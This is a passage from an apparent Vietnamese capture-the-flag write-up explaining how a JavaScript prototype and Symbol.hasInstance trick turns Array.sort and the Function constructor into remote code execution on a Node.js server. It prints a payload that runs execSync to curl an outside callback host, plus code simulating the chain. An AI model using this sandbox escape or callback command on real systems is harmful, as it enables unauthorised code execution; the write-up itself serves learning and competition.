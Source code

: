 Khi câu lệnh này được thực thi thì:

- Khi `instanceof` được sử dụng thì nó sẽ tìm kiếm xem b có thuộc tính `Symbol.hasInstance` không? Nếu có thì sẽ thực thi gọi tới `a.sort` là `this` và `toString.constructor` (AKA `Function`) là tham số truyền vào

- Khi `a.sort`(function sort) được gọi đến thì bình thường  thì nó sẽ cố gắng chuyển tất cả các phần tử trong mảng thành string bằng hàm `toString()` rồi so sánh bằng `function` truyền vào. Điều này vô tình trigger hàm `call()` chúng ta đã đổi ở lúc đầu và bây giờ cả `array` sẽ trở thành `parameter` của `new Function`

- Nói thêm ở phần này về lý do phải set `b[__proto__]=a` là vì `sort` là `function` của `array` nên chúng ta phải đổi `prototype` của nó thành `array` thì sort mới có thể được thực thi và hơn hết khi đó `sort` sẽ được thực thi trên `b`, `b` lúc này là một `object` nên `sort` sẽ cố gắng tìm kiếm `array` trong `object` này bằng cách tìm kiếm trong `prototype` của nó khi đó nó sẽ tìm được 1 `array` trong vì ta set `prototype` của `b` là `a`

- Giá trị return của `new Function` này sẽ là một anonymous với `a[0]` là function và `a[1]` là parameter

```js
(function anonymous(x
) {
process.mainModule.require('child_process').execSync('curl http://yh9wz5br.requestrepo.com')
})
```

- Để nói thêm một chút nữa thì flow của chương trình sẽ như sau trigger `sort` -> `sort` nhận `Function` làm tham số -> `Function` là hàm được sử dụng để 'so sánh' các phần tử bên trong mảng -> Mỗi phần từ được chuyển qua string(trigger `call` function) -> Trả về một anonymouse function -> Cuối cùng giá trị sau khi 'so sánh' sẽ được trả về dưới dạng string (trigger `call` function)

Đây là code mô phỏng lại quá trình sort

```js
toString.constructor.prototype.toString=Function.call;

Function(a[1].toString(),a[0].toString()).toString();
```

Từ đó ta RCE và lấy được flag

  **`Flag: W1{hehehe}`**

`P/S:` thật ra cách này đúng là "dùng dao mổ trâu để giết gà" vì cách này dùng cho những bài với filter chặt và bị hạn chế nhiều thứ. Do mình có sử dụng cách này khi thi nên tiện thể phân tích luôn cách này

## CURR
```
Let explore my website!!!

Author: dcthinh

http://45.122.249.68:20014

```

